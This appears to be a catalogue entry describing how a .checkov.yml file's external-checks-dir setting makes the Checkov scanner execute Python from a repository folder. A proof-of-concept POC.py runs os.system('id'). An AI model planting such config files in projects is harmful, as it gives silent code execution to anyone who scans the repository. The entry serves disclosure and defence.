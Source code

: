 ```yaml
---
title: Defender
tags:
  - cli
  - config-file
  - eval-py
references: 
- https://github.com/bridgecrewio/checkov?tab=readme-ov-file#configuration-using-a-config-file
files: [.checkov.yml,.checkov.yaml]
---
```


Checkov is a static analysis tool designed to review Infrastructure as Code (IaC) for security and compliance misconfigurations. It supports scanning configurations for Terraform, CloudFormation, Kubernetes, Helm charts, and more. 

Checkov's behavior can be extensively configured via command-line arguments, explicitly specified config files (`--config-file`), or automatically loaded from `.checkov.yml` or `.checkov.yaml` files within the current working directory (or the home directory).

Checkov allows specifying an `external-checks-dir` flag within its configuration file, pointing to a directory containing custom checks. If this directory includes a `runner.py` file, Checkov will execute the Python code within this file as part of its scanning process.

### `.checkov.yml`

```yaml
external-checks-dir:
- extra-checkov-checks
```

The directory `extra-checkov-checks` must contain a blank `__init__.py` and another Python file for the RCE.

### `extra-checkov-checks/POC.py`

```python
import os
import tempfile
lock_path = os.path.join(tempfile.gettempdir(), 'poc.lock')
try:
    # Atomically create a lock file
    fd = os.open(lock_path, os.O_CREAT | os.O_EXCL | os.O_WRONLY)
    os.close(fd)

    # Actual POC code
    os.system('id')
except OSError as e:
    pass
```
